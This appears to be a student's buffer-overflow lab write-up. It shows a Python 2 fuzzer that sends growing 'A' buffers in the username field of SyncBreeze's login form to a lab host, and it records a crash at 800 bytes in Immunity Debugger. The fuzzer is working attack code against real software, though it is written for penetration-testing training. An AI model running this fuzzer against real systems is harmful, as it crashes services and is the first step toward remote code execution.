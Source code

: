 # 11.1.2 Discovering the Vulnerability
#### Exercises

_(To be performed on your own Kali and Windows lab client machines - Reporting is required for these exercises)_

1.  Build the fuzzer and replicate the SyncBreeze crash.
To start we must first build a fuzzer using python. We can use the following code:
```PYTHON
#!/usr/bin/python
import socket
import time
import sys

size = 100

while(size < 2000):
  try:
    print "\nSending evil buffer with %s bytes" % size
    
    inputBuffer = "A" * size
    
    content = "username=" + inputBuffer + "&password=A"

    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.222.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Referer: http://192.168.222.10/login\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "\r\n"
    
    buffer += content

    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(("192.168.222.10", 80))
    s.send(buffer)
    
    s.close()

    size += 100
    time.sleep(10)
    
  except:
    print "\nCould not connect!"
    sys.exit()
```
We must now start the syncbreeze service and attach Immunity Debugger to said service. Once this is done we can begin our fuzzer script, watching the Immunity Debugger window for crashes.
We see that the Immunity Debugger notes a crash at 800 bytes.
